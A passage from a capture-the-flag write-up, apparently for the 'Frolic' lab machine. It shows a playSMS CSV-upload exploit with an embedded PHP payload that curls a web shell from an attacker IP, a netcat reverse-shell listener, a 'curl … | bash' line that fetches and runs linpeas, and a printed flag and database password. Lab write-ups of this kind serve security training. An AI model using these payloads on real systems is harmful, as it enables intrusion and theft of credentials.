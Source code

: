 Will not be focusing on SQL Injection or XSS or CSRF. I will be looking into RCE exploits and LFI/RFI if RCE does not work.

I tried `42038` but cannot find `online.php` or `report_online.html` So I look at the another one `42044`. I am able to find `sendfromfile.php` under My Account.

http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_sendfromfile&op=list

With the CSV exploit below, I uploaded a web shell under `/backup`.

```php
<?php system('curl 10.10.14.8/shell.php -o /var/www/html/backup'); ?>,2,3
```

Then access the shell under http://10.10.10.111:9999/backup/shell.php and gain reverse shell.

```bash
ghost@localhost [04:25:53] [~/Documents/hacking/tj-null-boxes/forlic] [master *]
-> % nc -lvnp 4444
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# User

Found 2 users under `/home`.

```bash
www-data@frolic:/$ ls /home
ayush  sahay

www-data@frolic:/$ cat /home/ayush/user.txt
1a72ab199c6843a722934338ee9d26e7
```

Found database credential at `/var/www/html/playsms/config.php`

```bash
// PHP PEAR DB compatible database engine:
// mysql, mysqli, pgsql, odbc and others supported by PHP PEAR DB
$core_config['db']['type'] = 'mysqli';          // database engine
$core_config['db']['host'] = 'localhost';       // database host/server
$core_config['db']['port'] = '3306';    // database port
$core_config['db']['user'] = 'root';    // database username
$core_config['db']['pass'] = 'ayush';   // database password
$core_config['db']['name'] = 'playsms'; // database name
```

Nothing interesting, so instead I run `linpeas` and output it under `/backup` to inspect later.

```bash
www-data@frolic:~/html/backup$ curl 10.10.14.8/linpeas.sh | bash > linpeas.output
```

Got possible path abuses.
`
```bash
  79   │ ╔══════════╣ PATH
  80   │ ╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses
  81   │ /usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
  82   │ New path exported: /usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
```
